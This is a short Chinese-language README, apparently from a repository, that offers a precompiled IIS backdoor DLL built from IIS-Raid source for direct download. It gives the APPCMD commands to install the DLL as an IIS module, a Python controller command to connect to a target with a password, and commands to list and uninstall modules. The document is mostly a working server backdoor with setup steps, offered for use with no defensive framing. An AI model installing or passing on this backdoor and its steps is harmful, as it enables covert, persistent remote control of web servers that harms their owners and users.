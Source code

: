 # README


已经编译好了的dll

####  

源码：https://github.com/0x09AL/IIS-Raid

  



####  

直接下载 IIS-backdoor.dll  

Windows server2012 IIS 8 测试

  


## 使用

### 添加模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module  /image:"c:\IIS-Backdoor.dll" /add:true

### 运行python脚本连接

python3 iis_controller.py --url target --password SIMPLEPASS

## 另外一些模块有关的命令

### 看一下已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE list modules

### 删除已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE uninstall modules Module
